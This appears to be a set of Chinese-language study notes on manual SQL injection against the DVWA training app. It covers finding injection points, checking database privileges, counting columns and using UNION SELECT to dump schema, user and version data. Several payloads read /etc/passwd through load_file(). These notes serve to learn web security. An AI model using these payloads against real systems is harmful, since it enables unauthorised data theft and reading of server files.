 ### 字段信息
```sql
select column_name from information_schema.columns where table_schema = 'dvwa' and table_name = 'users';
```

### load_file()
```
?id=-1 ' union select 1,load_file('/etc/passwd')
```


## 流程

### 寻找注入点

#### 测试风暴
`单引号` `双引号` `带括号` `时间逻辑`

#### `'`提交大法
判断是否可能为注入点的方法:
`1'` 报错，而`1''`没有报错。
判断的依据是看后台有没有过滤这些，把这些当成一个整体来输入。

#### `or` `and` 大法

#### 加减大法
判断是数字型还是字符型

### 数据库权限判断

```sql
select ord(mid(user(),1,1)) = 114;  // root权限
```
```sql
select count(*) from mysql.user;  // 读写权限
```


### 判断字段的个数

1. 使用 `order by 1 +--+` 往上加。直到出错。可以快速判断出总共有多少个字段。
2. 使用`union select 1,2,3,4` 判断哪几个字段是用户可以回显的。
	* 注意一开始可以使用`null`来判断多少个回显，因为有可能不让用数字型


#### 用`UNION SELECT`获取关键数据

* `'union select user(),database() +--+`
* `'union select session_user(),current_user(),version() +--+`
* `'union select load_file('/etc/passwd'),2,3,4,5,6,7,version() limit 1` 

```
?id=1' union select TABLE_SCHEMA, TABLE_NAME from information_schema.TABLES where TABLE_SCHEMA = 'dvwa'
```
